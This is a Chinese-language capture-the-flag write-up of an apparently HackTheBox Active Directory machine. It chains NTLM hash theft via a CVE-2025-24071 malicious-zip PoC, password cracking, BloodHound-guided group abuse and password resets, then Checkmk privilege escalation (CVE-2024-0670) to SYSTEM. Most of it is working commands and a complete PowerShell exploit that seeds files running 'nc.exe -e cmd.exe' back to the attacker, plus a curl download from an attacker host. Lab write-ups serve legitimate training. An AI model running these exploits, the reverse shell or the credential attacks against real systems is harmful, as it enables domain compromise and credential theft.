



## 00. 摘要

1. 端口扫描发现80端口开放
2. 信息收集发现可以上传压缩包，并且管理员会查看压缩包
3. 搜索使用压缩包窃取ntlm的方式，找到了 CVE-2025-24071
4. 使用 CVE-2025-24071 拿到 web_svc 账户的hash，爆破得到明文密码
5. bloodhound信息收集，发现可以 addSelf 到 IT_Support 组
6. 将自己添加到IT_Support组，尝试修改其它域用户的密码，发现可以改 monitoring_svc 用户的密码
7. 使用 monitoring_svc 账户，winrm远程登录机器。发现有一个 check_mk_agent 进程，经过搜索发现可以尝试 CVE-2024-0670 提权
8. 使用 CVE-2024-0670，利用失败，推测是 monitoring_svc 的权限原因
9. 使用 RunasCs 尝试以 web_svc 的身份利用 CVE-2024-0670。成功拿到SYSTEM权限。

## 01. 信息收集

```bash
$ rustscan -u 5000 -a 10.129.26.90 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Where '404 Not Found' meets '200 OK'.

[~] The config file is expected to be at "/home/lambermaybe/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.26.90:53
Open 10.129.26.90:80
Open 10.129.26.90:88
Open 10.129.26.90:135
Open 10.129.26.90:389
Open 10.129.26.90:593
Open 10.129.26.90:636
Open 10.129.26.90:3268
Open 10.129.26.90:3269
Open 10.129.26.90:3389
Open 10.129.26.90:139
Open 10.129.26.90:464
Open 10.129.26.90:445
Open 10.129.26.90:5986
Open 10.129.26.90:6556
Open 10.129.26.90:9389
Open 10.129.26.90:49664
Open 10.129.26.90:49669
Open 10.129.26.90:49671
Open 10.129.26.90:50558
Open 10.129.26.90:64933
Open 10.129.26.90:64949
```





## 02. 初始权限

检索到 [CVE-2025-24071](https://github.com/Marcejr117/CVE-2025-24071_PoC) ：此Windows漏洞出在 `explorer.exe` 中，攻击者可以构造一个恶意 `.zip` 文件，当受害者解压该压缩包时，会向攻击者服务器发起NTLM认证。攻击者成功窃取到受害者的 NetNTLMv2 hash。

```bash
git clone https://github.com/Marcejr117/CVE-2025-24071_PoC.git
cd CVE-2025-24071_PoC

python PoC.py test 10.10.14.107

sudo responder -I tun0

[SMB] NTLMv2-SSP Client   : 10.129.26.90
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:fbbf4af499fceee9:19EFFFE8A9231DCFCCF553AA4D096659:010100000000000000D942127E52DC016CEA8355AE973A520000000002000800440058003500570001001E00570049004E002D004E00550044004F0030004F00390036004B003500300004003400570049004E002D004E00550044004F0030004F00390036004B00350030002E0044005800350057002E004C004F00430041004C000300140044005800350057002E004C004F00430041004C000500140044005800350057002E004C004F00430041004C000700080000D942127E52DC0106000400020000000800300030000000000000000000000000200000C61EB5B3BAC1C973970298CA4F3137E7DA588278DF1383C62585BCFF6CCB928A0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100300037000000000000000000

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
dksehdgh712!@#   (web_svc)
```

## 03. 域信息收集

> [!note]
> 如果遇到Kerberos认证失败，大概率是pwnbox和域控时间不同步。可以尝试：
> ```bash
> $ sudo timedatectl set-ntp off
> $ sudo apt install rdate
> $ sudo rdate -n 10.129.26.90
> ```

使用 [rusthound-ce](https://github.com/g0h4n/RustHound-CE) 收集域信息

```bash
impacket-getTGT 'nanocorp.htb'/'web_svc':'dksehdgh712!@#'

export KRB5CCNAME=web_svc.ccache

rusthound-ce -d 'nanocorp.htb' -u 'web_svc' -k -no-pass -f 'DC01.nanocorp.htb'
```

> [!note]
> $ cat /etc/hosts
> 
> 10.129.26.90  DC01.nanocorp.htb DC01 nanocorp.htb hire.nanocorp.htb



将 web_svc 加入 IT_Support 组，从组名推测该组成员属于IT部门应该可以管理成员账户。尝试修改 monitoring_svc 的密码，发现可以成功修改。

```bash
bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -k add groupMember it_support web_svc

bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -k set password monitoring_svc 'Password123!'
```

```bash
git clone https://github.com/ozelis/winrmexec.git
cd winrmexec

impacket-getTGT 'nanocorp.htb'/'monitoring_svc':'Password123!'

export KRB5CCNAME=monitoring_svc.ccache

python3 winrmexec.py -ssl -port 5986 -k nanocorp.htb/monitoring_svc@dc01.nanocorp.htb -no-pass

Get-Process --> check_mk_agent -> CVE-2024-0670
```

上传提权脚本 exp.ps1 到机器上
1. 攻击机：`python -m htt.server`
2. 受害机：`curl http://attacker-ip:8000/exp.ps1 -o exp.ps1`

```powershell
param(
    [int]$MinPID = 1000,
    [int]$MaxPID = 15000,
    [string]$LHOST = "10.10.14.107",
    [string]$LPORT = "9001"
)

# 1. Define the malicious batch payload
$NcPath = "C:\Windows\Temp\nc.exe"
$BatchPayload = "@echo off`r`n$NcPath -e cmd.exe $LHOST $LPORT"

# 2. Find the MSI trigger
$msi = (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Installer\UserData\S-1-5-18\Products\*\InstallProperties' |
        Where-Object { $_.DisplayName -like '*mk*' } |
        Select-Object -First 1).LocalPackage

if (!$msi) {
    Write-Error "Could not find Checkmk MSI"
    return
}

Write-Host "[*] Found MSI at $msi"

# 3. Spray the Read-Only files
Write-Host "[*] Seeding $MinPID to $MaxPID..."
foreach ($ctr in 0..1) {
    for ($num = $MinPID; $num -le $MaxPID; $num++) {
        $filePath = "C:\Windows\Temp\cmk_all_$($num)_$($ctr).cmd"
        try {
            [System.IO.File]::WriteAllText($filePath, $BatchPayload, [System.Text.Encoding]::ASCII)
            Set-ItemProperty -Path $filePath -Name IsReadOnly -Value $true -ErrorAction SilentlyContinue
        } catch {
            # 123
        }
    }
}
Write-Host "[*] Seeding complete."

# 4. Launch the trigger
Write-Host "[*] Triggering MSI repair..."
Start-Process "msiexec.exe" -ArgumentList "/fa `"$msi`" /qn /l*vx C:\Windows\Temp\cmk_repair.log" -Wait
Write-Host "[*] Trigger sent. Check listener."
```

然后在受害机上，以 web_svc 身份（通过上传并使用 RunasCs）运行 exp.ps1。

```powershell
.\RunasCs.exe web_svc "dksehdgh712!@#" "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Windows\Temp\exp.ps1"
```